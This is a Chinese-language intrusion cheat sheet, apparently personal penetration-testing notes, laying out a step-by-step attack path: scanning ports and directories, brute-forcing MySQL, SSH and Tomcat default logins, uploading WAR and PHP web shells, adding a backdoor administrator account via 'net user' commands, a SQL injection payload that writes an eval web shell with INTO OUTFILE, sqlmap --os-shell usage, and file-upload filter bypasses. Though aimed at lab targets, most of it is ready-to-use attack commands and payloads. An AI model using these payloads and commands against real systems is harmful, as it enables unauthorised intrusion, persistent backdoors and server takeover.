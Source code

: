 ### 1. 扫ip

```cmd
//端口号扫描
使用-->御剑端口扫描（3389,80,8080,3306）或者 namp 192.168.71.0/24 --> 扫描c段

1.80端口最重要，通杀端口，找网页的各种漏洞（常见的文件上传，sql注入-->sqlmap的 “--os-shll” / " into file " ），找准机会上传shell，上传成功后，先访问网页，如果页面是空白页面代表路径是对的输入密码直接连。如果是404或者其它代表路径错误，或者shell被删除。

2.3389成功率最低，一般是后面提权后才会使用。
net user hack hack /add
net localgroup administrators hack /add
net localgroup "Remote Desktop Users" hack /add --> (比如说用户不在远程桌面连接组时，使用)

3.3306端口成功率也很低，条件苛刻
处在同一网段，使用Cracke.exe弱口令工具进行爆破，获取密码后使用命令（mysql -u root -h 192.168.1。1 -p），也可以连navicat
而且需要对方允许远程连接

4.8080端口，如果能访问到它的tomcat官方界面，进入后台的网页（有权限，不是403），可以尝试弱口令爆破（默认账号为tomcat tomcat），进去以后找到地方上传shell.war（jsp的shell的压缩的包）然后连接shell

5.22端口:爆破连ssh,成功概率也很低
```

### 2. 扫目录

```php
7k:输入 http：//192.168.71.1/ 选择字典进行目录扫描
hackbar test-->current path
```

### 3. 测试能否访问

```php
//在上一步的基础上，访问那些状态码为200的网页，去找网页的漏洞，如果有shell更好，直接连（连接密码尝试，a,b,c,cmd,shell,1,2,3,word,pass,test,root）
```

### 4. 上传shell

```sql
//sql注入
1.http://192.168.71.45/sqli-labs-master/Less-1/?id=-1' union select 1,2,"<?php @eval($_POST['a']);?>" into outfile "C:/phpstudy_pro/WWW/a.php" --+

2.使用sqlmap --> sqlmap -u "url" --os-shell --level 3  （执行系统命令，权限高的话可以net user /add）
-----sqlmap --> sqlmap -u "url" --sql-shell --level 3 (执行sql语句，可以利用来写shell)

//文件上传漏洞
1.js禁用
2.00截断（windows）
3.空格绕过
4.抓包（改文件类型，文件后缀）
5.图片马（文件包含）
```

